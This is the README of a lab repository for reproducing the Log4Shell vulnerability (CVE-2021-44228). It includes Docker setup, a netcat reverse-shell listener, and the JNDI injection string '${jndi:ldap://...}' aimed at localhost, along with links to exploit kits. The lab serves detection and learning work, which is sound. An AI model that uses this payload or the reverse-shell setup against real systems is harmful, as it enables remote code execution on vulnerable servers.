 # CVE-2021-44228 Log4Shell Research Lab 🚧

A basic lab environment to test some of the public proof of concepts to trigger and learn more about [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228).

## Used By

* [Microsoft Sentinel To-Go! CVE-2021-44228-Log4Shell Demo](https://github.com/OTRF/Microsoft-Sentinel2Go/tree/master/grocery-list/Linux/demos/CVE-2021-44228-Log4Shell)

## Deploy LDAP Reference & Web Servers

### Clone Repo

```
git clone https://github.com/Cyb3rWard0g/log4jshell-lab
```
### Run Docker Compose File

```
cd log4jshell-lab
docker-compose -f docker-compose.yml up --build -d
```

### Check Docker Containers

```
docker ps

docker logs --follow ldap-server
docker logs --follow web-server
```
## Run Basic Test

This scenario simulates an attacker using the log4j RCE vulnerability to get a shell locally (127.0.0.1) via netcat.
We are going to execute everything on the same endpoint where we deployed our attacker's infrastructure.

### Start Netcat Server

```
nc -lvnp 443
```
### Compile Basic JAR

**Docker**
```
cd vulnApps/basicJar
docker run -it --rm -v "$(pwd)":/opt/maven -w /opt/maven maven mvn clean install
```

**Manual**
```
cd vulnApps/basicJar
mvn -f pom.xml clean package -DskipTests
```

### Run Application

```
cd vulnApps/basicJar
java -cp target/Log4jLabProject-1.0-SNAPSHOT-all.jar com.log4jshell.App '${jndi:ldap://127.0.0.1:1389/Run}'
```

![](resources/images/log4jshell-trigger-rce-basicjar-reverseshell3.png)

## Seurity Datasets

* [Basic JNDI Lookup PCAP](https://securitydatasets.com/notebooks/atomic/linux/initial_access/SDLIN-211214154100.html)

## References
* https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf
* https://www.youtube.com/watch?v=Y8a5nB-vy78
* https://github.com/veracode-research/rogue-jndi
* https://community.microfocus.com/cyberres/fortify/f/fortify-discussions/317555/the-perils-of-java-deserialization
* https://www.veracode.com/blog/research/exploiting-jndi-injections-java
* https://github.com/pimps/JNDI-Exploit-Kit
* https://github.com/pimps/ysoserial-modified
* https://ldap.com/ldap-urls/
* https://github.com/pwntester/SerialKillerBypassGadgetCollection
* https://www.ibm.com/docs/en/content-manager/8.5.0?topic=ldap-server-configuration-storing-java-objects
* https://docs.microsoft.com/en-us/windows/win32/ad/enabling-schema-changes-at-the-schema-master
* https://forensicitguy.github.io/analyzing-log4shell-muhstik/
* https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/fromCharCode
* https://www.jackson-t.ca/runtime-exec-payloads.html
* https://github.com/woodpecker-appstore/log4j-payload-generator/tree/master